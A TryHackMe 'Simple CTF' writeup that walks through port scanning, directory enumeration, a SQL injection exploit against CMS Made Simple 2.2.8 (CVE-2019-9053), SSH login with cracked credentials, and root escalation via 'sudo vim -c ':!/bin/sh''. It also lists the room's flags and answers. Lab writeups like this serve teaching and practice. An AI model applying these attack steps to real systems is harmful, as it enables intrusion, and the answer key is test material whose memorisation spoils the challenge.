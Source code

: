 # Simple CTF - TryHackMe Writeup

This is a writeup for the "Simple CTF" room on TryHackMe, [here](https://tryhackme.com/room/easyctf), enjoy!!!
---

## Steps

### 1. Identify Services Running Under Port 1000
- Used `nmap` to scan for open ports and services:
  ```bash
  nmap -sV -p- [VICTIM IP]
  ```
- Example:
  ```bash
  nmap -sV -p- 10.10.22.23
  ```
- Results:
  ```
  PORT     STATE SERVICE VERSION
  21/tcp   open  ftp     vsftpd 3.0.3
  80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
  2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  ```
- Ports under 1000: 21 (FTP) and 80 (HTTP).
- Answer: `2`

### 2. Identify the Service on the Higher Port
- From the `nmap` scan, the highest port is `2222`, running `SSH`.
- Answer: `ssh`

### 3. Explore the Web Server
- Browsed to `http://[VICTIM IP]` and found the default Apache2 page.
- Used `gobuster` to enumerate directories:
  ```bash
  gobuster dir -u http://[VICTIM IP] -w [PATH TO WORDLIST] -t 100
  ```
- Example:
  ```bash
  gobuster dir -u http://10.10.22.23 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
  ```
- Note: `-t 100` sets the number of concurrent threads to 100, speeding up the scan.
- Found a directory: `/simple`.
- Browsed to `http://[VICTIM IP]/simple` and identified "CMS Made Simple" version 2.2.8.

### 4. Identify and Exploit the Vulnerability
- Searched Google for "CMS Made Simple 2.2.8 exploit" and found a SQL injection exploit (CVE-2019-9053) on Exploit-DB.
- Used a fixed version of the exploit by me from [this GitHub repo](https://github.com/so1icitx/CVE-2019-9053).
- Saved the Python script as `exploit.py` on my attack box.
- Installed required dependency (check github repo for more instructions!): 
  ```bash
  pip install termcolor
  ```
- Ran the exploit to extract credentials:
  ```bash
  python exploit.py -u http://[VICTIM IP]/simple -crack -w [PATH TO WORDLIST]
  ```
- Example:
  ```bash
  python exploit.py -u http://10.10.22.23/simple -crack -w /usr/share/wordlists/rockyou.txt
  ```
- Results:
  ```
  [+] Username found: mitch
  [+] Email found: admin@admin.com
  [+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
  [+] Password cracked: secret
  ```
- CVE: `CVE-2019-9053`
- Vulnerability type: `sqli` (SQL Injection)
- Password: `secret`

### 5. Login to the Machine
- Used SSH to connect with the obtained credentials:
  ```bash
  ssh mitch@[VICTIM IP] -p 2222  # using 2222 port not 22 casue from nmap scan we established that ssh is running on port 2222
  ```
- Example:
  ```bash
  ssh mitch@10.10.22.23 -p 2222
  ```
- Entered password `secret` and logged in successfully.
- Login service: `ssh`

### 6. Obtain the User Flag
- Checked the current directory:
  ```bash
  pwd
  ```
- Output: `/home/mitch`
- Listed files and read the user flag:
  ```bash
  ls
  cat user.txt
  ```
- User flag: `G00d j0b, keep up!`

### 7. Identify Other Users
- Navigated to the parent directory to check for other users:
  ```bash
  cd ..
  ls
  ```
- Output: `mitch  sunbath`
- Other user: `sunbath`
- Attempted to access `/home/sunbath` but lacked permissions.

### 8. Privilege Escalation
- Checked sudo privileges:
  ```bash
  sudo -l
  ```
- Output:
  ```
  User mitch may run the following commands on Machine:
      (root) NOPASSWD: /usr/bin/vim
  ```
- Leveraged `vim` for privilege escalation (per GTFOBins):
  ```bash
  sudo vim -c ':!/bin/sh'
  ```
- Dropped into a root shell:
  ```bash
  id
  ```
- Output: `uid=0(root) gid=0(root) groups=0(root)`
- Tool used: `vim`

### 9. Obtain the Root Flag
- Navigated to the root directory and read the flag:
  ```bash
  cd /root
  ls
  cat root.txt
  ```
- Root flag: `W3ll d0n3. You made it!`

---

## Answers to Challenge Questions
1. **How many services are running under port 1000?**: `2`
2. **What is running on the higher port?**: `ssh`
3. **What’s the CVE you’re using against the application?**: `CVE-2019-9053`
4. **To what kind of vulnerability is the application vulnerable?**: `sqli`
5. **What’s the password?**: `secret`
6. **Where can you login with the details obtained?**: `ssh`
7. **What’s the user flag?**: `G00d j0b, keep up!`
8. **Is there any other user in the home directory? What’s its name?**: `sunbath`
9. **What can you leverage to spawn a privileged shell?**: `vim`
10. **What’s the root flag?**: `W3ll d0n3. You made it!`

---

## Tools Used
- `nmap`: Port scanning and service enumeration.
- `gobuster`: Directory enumeration.
- `python exploit.py`: SQL injection exploit for CVE-2019-9053.
- `ssh`: Remote access to the target.
- `vim`: Privilege escalation.

---
